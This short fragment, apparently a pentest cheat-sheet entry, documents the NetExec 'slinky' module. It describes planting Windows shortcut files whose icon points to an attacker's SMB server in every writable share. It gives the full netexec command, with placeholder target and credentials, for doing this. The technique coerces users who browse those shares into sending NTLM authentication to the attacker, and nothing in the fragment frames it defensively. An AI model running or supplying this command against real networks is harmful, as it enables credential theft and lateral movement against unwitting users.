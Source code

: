 Creates windows shortcuts with the icon attribute containing a UNC path to the specified SMB server in all shares with write permissions
```
netexec smb target -u username -p password -M slinky
```
